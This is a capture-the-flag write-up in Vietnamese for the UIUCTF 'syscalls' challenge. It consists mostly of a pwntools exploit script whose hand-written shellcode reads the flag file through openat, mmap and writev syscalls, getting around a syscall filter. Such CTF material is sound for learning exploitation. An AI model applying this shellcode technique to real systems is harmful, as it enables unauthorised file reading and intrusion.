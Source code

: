 Từ ba syscall trên ta có thể build được một shellcode open read write để đọc flag (Challenge đã cho ta biết file flag nằm cùng thư mục với file challnge)

**Script của mình:**
```python
from pwn import *
import os

del os.environ['WT_SESSION']
context.log_level = 'debug'
context.binary = exe = ELF('./syscalls')

libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

gs = '''
     b *setvbuf
     c
     del 1
     '''

match sys.argv[1]:
    case "run":
        p = process(exe.path)
    case "debug":
        p = gdb.debug(exe.path, gs)
    case "remote":
        p = remote('syscalls.chal.uiuc.tf', 1337, ssl=True)
    case default:
        p = "nothing"

def main():
    payload_1 = asm('''
                mov rbx, [rsp + 0x100]
                sub rbx, 0x29d90
                mov rax, 0x7478
                push rax
                mov rax, 0x742e67616c662f2e
                push rax
                mov rsi, rsp
                mov rdi, 0xffffffffffffff9c
                mov rdx, 0x0
                mov rax, 0x101
                syscall
                mov rdi, 0x0
                mov rsi, 0x40
                mov rdx, 0x1
                mov r8, rax
                mov r9, 0x0
                mov r10, 0x3
                mov rax, 0x9
                syscall
                mov rcx, 0x100
                push rcx
                push rax
                mov rdi, 0x100000001
                mov rsi, rsp
                mov rax, 0x14
                syscall
                ''')

    p.sendlineafter(b'you.\n', payload_1)

    p.interactive()

```